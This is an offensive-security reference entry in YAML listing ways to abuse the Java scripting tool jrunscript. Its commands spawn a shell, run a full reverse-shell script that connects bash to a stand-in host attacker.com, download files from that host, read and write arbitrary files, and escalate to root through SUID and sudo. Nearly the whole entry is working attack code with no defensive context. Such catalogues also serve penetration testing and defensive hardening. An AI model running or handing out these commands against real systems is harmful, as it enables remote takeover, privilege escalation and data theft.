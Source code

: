 description: This tool is installed starting with Java SE 6.
functions:
  shell:
    - code: jrunscript -e "exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)')"
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        jrunscript -e 'var host='"'""$RHOST""'"'; var port='"$RPORT"';
        var p=new java.lang.ProcessBuilder("/bin/bash", "-i").redirectErrorStream(true).start();
        var s=new java.net.Socket(host,port);
        var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
        var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){
        while(pi.available()>0)so.write(pi.read());
        while(pe.available()>0)so.write(pe.read());
        while(si.available()>0)po.write(si.read());
        so.flush();po.flush();
        java.lang.Thread.sleep(50);
        try {p.exitValue();break;}catch (e){}};p.destroy();s.close();'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        jrunscript -e "cp('$URL','$LFILE')"
  file-write:
    - code: jrunscript -e 'var fw=new java.io.FileWriter("./file_to_write"); fw.write("DATA"); fw.close();'
  file-read:
    - code: jrunscript -e 'br = new BufferedReader(new java.io.FileReader("file_to_read"));
         while ((line = br.readLine()) != null) { print(line); }'
  suid:
    - description: This has been found working in macOS but failing on Linux systems.
      code: ./jrunscript -e "exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)')"
  sudo:
    - code: sudo jrunscript -e "exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)')"
---
